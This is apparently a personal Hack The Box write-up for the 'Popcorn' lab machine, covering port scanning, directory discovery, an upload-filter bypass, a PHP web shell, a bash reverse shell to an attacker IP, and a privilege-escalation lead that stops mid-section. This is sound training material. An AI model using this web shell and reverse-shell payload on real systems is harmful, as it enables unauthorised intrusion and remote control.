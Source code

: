 ```yaml
---
title: htb popcorn
author: Yuchao
date: 2021-03-15 11:33:00 +0800
categories: [sec]
tags: [htb]
math: true
mermaid: true
---
```


## Recon

#### nmap 
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.6
nmap -p 22,80 -sC -sV -oA scans/tcpscripts 10.10.10.6
```
- OpenSSH 5.1p1, Apache httpd 2.2.12  ---> older than Ubuntu Trusty 14.04 ---> Karmic (9.10)

#### Directory discovery
```bash
# asdf
gobuster dir -u http://10.10.10.6 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o scans/gobuster-root-med -t 40
```
- get the path: /test (Status: 200) /index (Status: 200) /torrent (Status: 301) /rename (Status: 301)
- show a PHP info page.
- ``` file_uploads ``` is set to ON
- may vulnerable to Local File Inclusion.(LFI)
- /torrent can upload image as screen shot
- and the picture is saved at ``` http://10.10.10.6/torrent/upload/ ```

## upload webshell
#### manipulate php to bypass picture filters
- 1. file extension (the server did not have check this)
- 2. Content-Type header (this filter works on the server)
- 3. magic bytes (did not work)

so just change the http header,
add the php code before a png content in Burpsuite.
```php
<?php system($_REQUEST["cmd"]);?>
```

#### upload
cmd.php seems to be rename as its hash value, as 0ba973670d943861fb9453eecefd3bf7d3054713.php.

#### execute
``` curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php?cmd=id ```

## reverse shell
webshell
```bash
curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1'"
```
attacker
```bash
nc -lnvp 443
```
upgrade the shell
``` bash
python -c 'import pty;pty.spawn("bash")'
^Z
stty raw -echo
fg
```

## privesc
at user`s file
``` find . -type f -ls ```
``` /.cache/motd.legal-displayed ``` looks interesting.
- Googling for “motd.legal-displayed privesc”
- https://www.exploit-db.com/exploits/14339
- Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation
- 
